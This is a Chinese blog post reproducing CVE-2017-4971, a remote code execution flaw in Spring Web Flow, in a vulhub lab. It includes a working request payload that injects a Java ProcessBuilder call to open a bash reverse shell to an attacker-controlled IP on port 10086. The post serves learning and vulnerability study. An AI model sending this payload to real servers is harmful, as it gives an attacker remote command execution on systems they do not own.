






# 漏洞复现-CVE-2017-4971-Spring Web Flow 远程代码执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/13363752.html`](https://www.cnblogs.com/cute-puli/p/13363752.html)

# 0x00 实验环境

攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker 搭建的 vulhub 靶场）（兼顾反弹 shell 的攻击机）

# 0x01 影响版本

Spring WebFlow 2.4.0 - 2.4.4

# 0x02 实验步骤

首先，进入靶场环境，我们可以清晰地看到这个漏洞平台展示的，是我挖洞以来从来没有遇见过的页面：



这个漏洞复现很简单，我先详细的操作一遍。

首先，我们点击该登录页面，然后进入登录模块。


如下图，会出现很多个默认账号与密码，我们随意挑选一个进行登录操作：




 然后我们进入这个网址，尽管我并不知道为什么要进入这个网址，但是，应该可以肯定，漏洞的触发点就在这个网址：

> [`your-ip/hotels/1`](http://192.168.88.140/hotels/1)



 我们点击这个 Book Hotel 按钮，然后进行到下一个页面：



 随意输入一些合法的内容后，我们点击**Proceed**然后会跳转到**Confirm**页面：



在点击**Confirm**的时候进行抓包，此处存在命令执行，可反弹 shell

使用如下反弹 shell 的 Payload：

```
_eventId_confirm=&_csrf=57033da7-4538-42ec-9933-e12ac3e97db5&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/x.x.x.x/10086+0>%261")).start()=vulhub
```

此处监听**10086**端口，然后，将 IP 换为你的远程攻击机 IP

 

 

 放包后即可获取到 shell：



 成功 getshell。

# 0x03 实验原理

我也不是很懂，但是读了一篇博客后，感觉清晰很多，总结一下，就是在订阅图书处，存在一个命令执行，直接调用了两个函数，这两个函数，一个是：**addDefaultMappings** ,一个是 **addModelBindings**。

其中，直接控制**field**这个值的函数是**addDefaultMappings**，且未做过滤，而**addModelBindings**是直接获取的 java 的一个配置文件，由配置文件来确定是否有 **binder** 节点，如果有，就无法触发代码执行。所以条件有两个：

（1）binder 节点为空；

（2） useSpringBeanBinding 默认值（false）未修改。

由此可实际在代码中找到该页面，*节点为空（代替命令执行语句）+默认值为 false（点击 Confirm 按钮）*

 

 参考文章：[`paper.seebug.org/322/`](https://paper.seebug.org/322/)

如果我的理解不正确，欢迎指正一起学习！谢谢！